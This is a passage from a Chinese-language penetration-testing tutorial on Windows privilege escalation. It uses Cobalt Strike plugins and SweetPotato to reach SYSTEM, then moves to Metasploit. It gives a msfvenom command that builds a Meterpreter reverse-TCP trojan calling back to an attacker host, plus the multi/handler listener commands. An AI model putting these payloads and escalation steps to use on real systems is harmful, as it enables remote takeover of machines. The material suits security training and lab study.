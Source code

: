 这些插件都集成了很多的功能，原版CS上的功能很少，基本上就是一个类似MSF的一个图像化工具，当装上插件后，就可以使得CS摇身一变，变成内网大杀器。

梼杌：https://github.com/pandasec888/taowu-cobalt-strike

ladon：https://github.com/k8gege/Aggressor

<img src="https://s2.loli.net/2023/03/16/TXsFH3Ow8n9yuZR.png" alt="image-20230316092109387" style="zoom:50%;" />

### 当前权限

通过输入命令查看，当前权限就是一个普通权限，虽然可能能够执行一些管理员的操作，但是我们需要的是将权限提升到system，这样我们想执行什么命令就能够执行什么命令。

<img src="https://s2.loli.net/2023/03/16/RqHz3rQCs4txZPu.png" alt="image-20230316092139053" style="zoom:50%;" />

### 提权操作

#### 选择提权方式

这里使用梼杌进行提权，选择sweetpotato，然后继续提权。

<img src="https://s2.loli.net/2023/03/16/Q2prUXwxPJksOKc.png" alt="image-20230316092405248" style="zoom:50%;" />

#### 提权成功

可以看到这里弹出一个system的权限连接，即证明提权成功，当然这里不代表任何一个提权都能够成功的，有些提权方式可能会由于操作系统的不同，导致失败，这里我选择sweetpotato进行提权就是的，前面几个都提权失败了，有不成功的，有系统不匹配的，所以多试试，当然也可以安装更多的插件，使用不同插件中的不同的提权方式，总之多试试。

<img src="https://s2.loli.net/2023/03/16/pdxObCLtYvhy9Zs.png" alt="image-20230316092835343" style="zoom:50%;" />

## MSF全自动溢出提权

如果对MSF工具不熟悉的可以参考以下的连接进行学习，这个只是上篇，在博客主页中能够找到下篇。这里使用的环境是Windows7，由于Windows2012上没有补丁信息，就会导致无法识别的情况。

MSF工具使用：https://blog.csdn.net/weixin_44268918/article/details/128775978?spm=1001.2014.3001.5501

### 监听操作

#### 生成木马

通过msfvenom生成一个木马，然后将木马上传至服务器中，即可。

```
命令：msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.20 LPORT=3333 -f exe -o msf.exe
LHOST=kali地址
LPORT=自定义设置一个端口
```

<img src="https://s2.loli.net/2023/03/16/botig5j21eJkNqD.png" alt="image-20230316094456638" style="zoom: 67%;" />

#### 监听木马

```
msf6 > use exploit/multi/handler    
[*] Using configured payload generic/shell_reverse_tcp   
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp    ##配置监听TCP
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lport 3333    ##配置监听端口
lport => 3333
msf6 exploit(multi/handler) > set lhost 0.0.0.0  ##配置监听地址，你也可以设置监听本机地址如192.168.10.20
lhost => 0.0.0.0
msf6 exploit(multi/handler) > run  ##开始监听
```
